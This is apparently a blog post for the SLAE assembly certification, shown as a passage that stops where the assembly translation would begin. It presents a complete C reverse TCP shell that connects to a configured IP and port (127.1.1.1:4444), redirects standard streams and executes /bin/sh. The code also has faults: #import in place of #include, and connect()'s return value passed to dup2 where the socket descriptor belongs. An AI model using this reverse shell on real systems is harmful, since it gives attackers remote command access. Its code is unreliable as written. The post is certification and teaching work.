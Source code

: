 ```yaml
---
layout: post
title: SLAE 2 - Shell Reverse TCP Shellcode
date:   2019-02-26
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The second question for the SLAE exam is to create a Reverse Shell.  The requirements are:
* Reverse connects to a configured IP and port
* Execs shell on incoming connection
* IP and Port should be easily configurable

## Creating Shell Reverse TCP Shellcode

The proper steps for a Reverse Shell are as follows:
1. Creating the socket
2. Connect to an IP and port
3. Redirect output
4. Execute a shell

In order to easily translate the calls in to assembly, let's build the Reverse Shell in C first.  Then we will be able to translate it from there.

## Creating a Reverse Shell in C

We covered most of these details in the Shell Bind TCP Shellcode write up so I'm just going to put the C code in with light comments.

```c
#import <sys/socket.h>
#import <sys/types.h>
#import <netinet/in.h>
#import <stdlib.h>

int main() {
        int sockfd = socket(AF_INET, SOCK_STREAM, 0);
        
        struct sockaddr_in sock_addr;
        
        sock_addr.sin_family = AF_INET;
        sock_addr.sin_port = htons(4444);
        sock_addr.sin_addr.s_addr = inet_addr("127.1.1.1");
        
        // int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        int connection = connect(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));
        
        dup2(connection, 0);
        dup2(connection, 1);
        dup2(connection, 2);
        
        execve("/bin/sh", NULL, NULL);
}
```
## Translating to Assembly
